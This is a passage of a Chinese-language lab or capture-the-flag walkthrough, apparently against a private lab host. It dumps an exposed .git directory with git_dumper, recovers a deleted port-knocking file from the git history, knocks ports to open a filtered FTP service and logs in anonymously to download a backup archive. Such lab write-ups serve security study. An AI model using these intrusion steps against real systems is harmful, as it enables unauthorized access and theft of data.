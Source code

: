 ![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

发现.git目录，使用git_dumper获取内容并保存到10.0.0.117目录下

.git目录泄露利用  

```
python3 git_dumper.py http://10.0.0.117/SuperCMS/.git/ 10.0.0.117
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

进入10.0.0.117目录下查看git日志

```
cd 10.0.0.117  
git log
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

日志中发现备注中有疑似端口敲门文件，看一下详细日志

```
git diff 58afe63a1cd28fa167b95bcff50d2f6f011337c1
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

找到文件名，将文件导出来

```
git show $(git rev-list --max-count=1 --all -- knocking_on_Atlantis_door.txt)^:knocking_on_Atlantis_door.txt
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

在之前的nmap扫描中只有21端口是被防火墙过滤的，现在使用端口敲门访问1100 800 666 三个端口后再来检查21端口是否开放

端口敲门

```
knock 10.0.0.117 1100 800 666 -v
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

```
nmap 10.0.0.117 -sC -sV -p21
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

端口开放了，并且可以匿名访问

```
ftp 10.0.0.117  
输入用户名anonymous  
密码为空  
ls  
cd pub  
ls -al  
get .backup.zip
```
